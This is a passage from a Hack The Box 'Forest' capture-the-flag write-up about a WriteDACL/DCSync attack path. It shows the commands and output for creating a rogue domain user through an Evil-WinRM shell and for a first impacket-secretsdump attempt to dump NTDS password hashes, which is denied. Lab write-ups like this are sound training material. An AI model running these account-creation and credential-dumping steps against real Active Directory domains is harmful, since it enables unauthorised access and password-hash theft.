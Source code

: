 ![](assets/img/htb/forest/info1.png)
### write dacl attack
to perform this attack first I'll create a new user on the domain 

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> net user rxffsec password123 /add /domain
The command completed successfully.
```

first if I try secretsdump with the user I created, this gives an access denied error but when the dcsync attack is performed I will be able to see the hashes from another users

```bash
$ impacket-secretsdump htb.local/rxffsec:password123@10.10.10.161
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up... 
```

to do this first I have to add then new user to the group exchange windows permissions 

![](assets/img/htb/forest/path3.png)
